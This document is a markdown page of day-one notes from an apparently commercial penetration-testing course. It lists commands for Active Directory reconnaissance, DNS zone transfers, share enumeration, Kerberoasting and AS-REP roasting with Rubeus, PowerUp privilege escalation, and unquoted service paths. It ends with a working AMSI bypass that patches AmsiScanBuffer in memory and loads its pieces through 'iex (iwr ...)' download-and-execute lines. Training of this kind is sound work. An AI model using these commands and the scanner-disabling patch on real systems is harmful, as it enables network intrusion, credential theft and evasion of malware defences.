 *Day 1 notes from Light Pentest LITE (Live Interactive Training Experience)  
More information at https://7minsec.com/services/training/#lplite*

# Where are we on the network?
```
nslookup -type=SRV _ldap._tcp.dc._msdcs.tangent.town
```

# DNS zone transfers
```
nslookup
set type=any
ls -d tangent.town
```
# Network share enumeration
```
import-module .\PowerHuntShares.psm1
mkdir dump
Invoke-HuntSMBShares -OutputDirectory dump
```

# Kerberoasting
Basic Kerberoasting
```
rubeus.exe kerberoast /simple
```
Kerberoasting with a side order of text output sauce:
```
rubeus.exe kerberoast /simple /outfile:kerberoast.txt
```

# ASREPRoasting
Classic style:
```
rubeus.exe asreproast
```
ASREPRoasting with clean output that's ready for hashcat to gnaw on:
```
rubeus.exe asreproast /format:hashcat /nowrap
```

ASREPRoasting with clean output that's ready for hashcat *and* text output sauce:
```
rubeus.exe asreproast /format:hashcat /nowrap /outfile:asreproast.txt
```

# Privilege escalation with PowerSploit
```
Import-Module .\PowerUp.ps1 
get-help Write-ServiceBinary -examples
```

# Unquoted service paths
Finding USPs from the command line:
```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

Finding permissions on folders using icacls:
```
icacls "C:\first folder\second folder"
icacls "C:\first folder"
```

# Bypass AMSI
Source article: https://x4sh3s.github.io/posts/Divide-and-bypass-amsi

*1.txt*:
```
# 1.txt
$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
```

*2.txt*:
```
# 2.txt
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

*main.txt*:
```
# main.ps1
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

iex ( iwr http://localhost/1.txt -UseBasicParsing );
iex ( iwr http://localhost/2.txt -UseBasicParsing );
```
